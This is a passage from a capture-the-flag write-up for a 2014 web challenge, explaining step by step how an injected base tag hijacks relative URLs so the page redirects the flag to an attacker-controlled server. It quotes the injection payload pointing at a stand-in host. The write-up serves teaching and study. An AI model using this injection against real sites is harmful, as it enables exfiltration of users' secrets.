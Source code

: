 1. When [instantiating a new `Template` object](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/template.js#L1-L7), the template is [immediately loaded via `XMLHttpRequest` and cached in the `sessionStorage`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/loader.js#L32-L42).
2. Since the injection ([lines 144 and 145 in `js/pages/chat.js`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L144)) already occurs before the load of the `message.html` template ([line 165](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L144)), the new base URL is in effect.
3. The page [uses a relative URL to load the `message.html` template](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L165), so it is hijacked by the base URL and blocked by CSP. The `XMLHttpRequest` fails with a `SecurityError`. Thus the `temp` variable is not set and remains to be the `location` object.
4. In [`page.appendMessage`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L104-L111) the `renderToString` function cannot be found on the `location` object and errors.
5. So this leaves a call to [`location.assign('<base href=https://our-server.example.com/> (PREM_flag{cows_need_love_too!})')`](https://github.com/ctfs/write-ups/blob/master/hack-lu-ctf-2014/hotcows-dating/source/js/pages/chat.js#L179). This is in fact a relative URL and hence hijacked by the new base URL.
6. Finally the browser redirects to `https://our-server.example.com/<base href=https://our-server.example.com/> (PREM_flag{cows_need_love_too!})`.

In a way, this exploit is even harder to find than the intended solution. Every attacker surfing on `chat.js` fills the `sessionStorage` with the legitimate `message.html` `Template`. This stops the exploit from working because it needs the first `SecurityError` due to the `XMLHttpRequest`.

## Other write-ups and resources

* [More info about _DOM clobbering_, the technique used to solve this challenge](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)

